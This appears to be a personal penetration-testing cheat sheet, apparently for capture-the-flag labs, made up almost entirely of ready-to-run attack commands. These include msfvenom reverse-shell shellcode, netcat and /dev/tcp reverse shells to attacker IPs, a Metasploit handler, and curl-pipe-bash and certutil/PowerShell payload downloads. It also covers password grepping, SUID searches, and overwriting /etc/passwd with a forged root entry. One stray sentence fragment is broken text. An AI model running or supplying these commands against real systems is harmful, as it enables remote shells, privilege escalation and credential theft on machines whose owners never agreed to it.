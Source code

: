 -------------------------------------------------<: shellcode generate :>-----------------------------------------------------------

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST 10.10.15.135 LPORT=1234 -f c -b \x00\x0a\x0d 

msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.9.80.151 LPORT=8000 -b "\x00\x25\x26" -f python -v shellcode

==========================================================================================================================================

curl shell:=> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.80.151 8000 >/tmp/f

cat * | grep -i passw*  : find the passwords in one command

python3 -c 'import pty; pty.spawn("/bin/bash") '

sudo python3 -m http.server 80

bash -c "bash -i >& /dev/tcp/10.10.14.18/443 0>&1"

find / -perm -u=s -type f 2>/dev/null 

sudo msfconsole -q -x "use exploit/multi/handler;\
set PAYLOAD windows/meterpreter/reverse_tcp;\
set LHOST 10.11.0.4;\
set LP ORT 80;\
run"
----------------------------------directory_brute------------------------------------------------------------------
gobuster dir -u http://xxxxxxxxxx -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -k

gobuster dir -u http://xxxxxxxxxx  -w /usr/share/seclists/Discovery/Web-Content/common.txt

----------------------------------------------subdomain_brute------------------------------------------------------------
gobuster vhost -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt  -u http://thetoppers.htb --append-domain Host: [word].thetoppers.htb
==============================================================interactive_shell========================================================
python3 -c 'import pty; pty.spawn("/bin/bash") '

SHELL=/bin/bash script -q /dev/null
CTRL+Z
stty raw -echo && fg
export TERM=xterm

============================bash_backdoor================================

bash -c 'exec bash -i &>/dev/tcp/{lhost}/{lport}<&1'

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -I 2>&1|nc 192.168.49.249 80 >/tmp/f


======================================================recieving a file from CMD=============================================

cmd.exe /C certutil -urlcache -split -f http://10.9.80.151:90/winPEASany.exe winpeas.exe

======================================================================================================================
sed -i "s/$port = 1234;/$port = 4444;/g" php-reverse-shell.php

------------------------------shell_with_curl----------------------------------------------
http://thetoppers.htb/shell.php?cmd=curl%2010.10.15.135:100/shel.sh|bash

powershell.exe (New-Object system.Net.WebClient).DownloadFile('http://10.15.35.5/payload.exe',' c:\Users\Public\whoami.exe')


 that includes a username, salted/hashed password, UID, GID, directory, and shell .

-----------------------------------------------------openSSL-------------------------------------------------------------------------
#process to make SSL certificate throgh system

openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 12345 


openssl passwd -1 -salt salt password : generating password and salt to add into shadow
username:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0::/root:/bin/bash

openssl enc -in fake passwd -out /etc/passwd : overwrite protected passwd file with openssl
https://www.youtube.com/watch?v=i3ecAqGlGcc

